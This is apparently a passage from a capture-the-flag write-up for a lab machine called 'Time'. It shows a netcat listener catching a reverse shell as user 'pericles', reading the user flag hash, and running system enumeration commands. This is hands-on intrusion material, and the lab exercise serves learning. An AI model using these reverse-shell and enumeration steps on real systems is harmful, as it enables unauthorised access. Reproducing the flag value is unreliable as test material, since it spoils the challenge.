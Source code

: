 ```
└─$ nc -nvlp 8585
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8585
Ncat: Listening on 0.0.0.0:8585
Ncat: Connection from 10.10.10.214.
Ncat: Connection from 10.10.10.214:44362.
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
pericles@time:/var/www/html$ id
id                                                                                                                
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)      
pericles@time:/var/www/html$ cd ~
cd ~
pericles@time:/home/pericles$ ls
ls
linpeas.sh  snap  test  user.txt
pericles@time:/home/pericles$ cat user.txt
cat user.txt
9d2edff1efc6fe7f3be329eecf6880eb
pericles@time:/home/pericles$ 
```

## Enumeration as "pericles"

Let's gather some basic system information:

```
pericles@time:/home/pericles$ uname -a; cat /etc/*-release; netstat -antp;
uname -a; cat /etc/*-release; netstat -antp;
Linux time 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04 LTS"
NAME="Ubuntu"
VERSION="20.04 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0    930 10.10.10.214:44362      10.10.14.3:8585         ESTABLISHED 28486/bash          
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -          
pericles@time:/home/pericles$ 
```